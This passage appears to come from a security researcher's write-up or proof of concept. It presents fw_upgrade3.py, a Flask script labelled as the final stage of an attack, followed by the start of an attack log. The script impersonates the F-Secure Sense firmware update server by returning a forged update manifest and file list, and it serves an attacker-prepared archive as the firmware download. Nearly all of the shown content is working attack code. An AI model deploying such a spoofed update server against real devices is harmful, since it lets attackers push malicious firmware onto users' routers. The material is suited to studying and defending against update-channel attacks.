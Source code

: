 ---------------------------------------------------------------

**fw_upgrade3.py** - Flask script to execute part 3 of the attack (final)

```python
from flask import Flask
import os

app = Flask(__name__)


@app.route('/f/bd0feb5e499782182c6315d06d2803fcd1c24fcc88e9a02a2012050b0d4d0832_archive', methods = ['GET'])
def fun3():
    x = open('out2', 'rb')
    content = x.read()
    x.close()
    return content

@app.route('/o;t=sense-firmware;v=1554196376;c=96c7329d;pv=1554196377;pc=96c7329d', methods = ['GET'])
def fun2():
    return '{"guts2ar1": {"id": "bd0feb5e499782182c6315d06d2803fcd1c24fcc88e9a02a2012050b0d4d0832_archive", "size": '+str(os.path.getsize('out2'))+'}}'
#16706357


@app.route('/h;t=sense-firmware;v=1554196376;c=96c7329d', methods = ['GET'])
def fun():
    return '{"cookie": "96c7329d", "files": [{"filename": "sense-firmware.mf", "sha256": "fe538892b4db5efaa01a65ce88854442c7cf9d8695b571b1b522f22182169612", "size": 10062}, {"filename": "openwrt-rtkmips-rtl8198c-AP-fw.bin", "sha256": "afd39c13d05b41904ac28ccd17a940ccc69d072dffa94c7baaf1aa3e8ad7aacb", "size": 17301508}, {"filename": "sense-firmware.ini", "sha256": "047eb19ca399fe94254667734ef3489b319158237410d425d78a0735a875f9d9", "size": 239}, {"filename": "fsupgrade", "sha256": "59cbc90c560ceeda6292a0a8b64377144566a77e25d02cdeb9b33e511ddeebc9", "size": 1844}], "title": "F-Secure Sense Firmware Update 2019-07-02_01", "type": "sense-firmware", "version": 1554196376}'


@app.route('/q', methods = ['POST'])
def hello():
    return '{"updates": [{"cookie": "96c7329d", "version": 1554196376, "type": "sense-firmware"}]}'


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```


----------------------------------------------------------

## Attack log

Initial firmware version:
```
[Version]
File_set_version=1539865877
File_set_release_date=2018-10-18
File_set_visible_version=2018-10-18_01
File_set_release_time=12:31:17
```
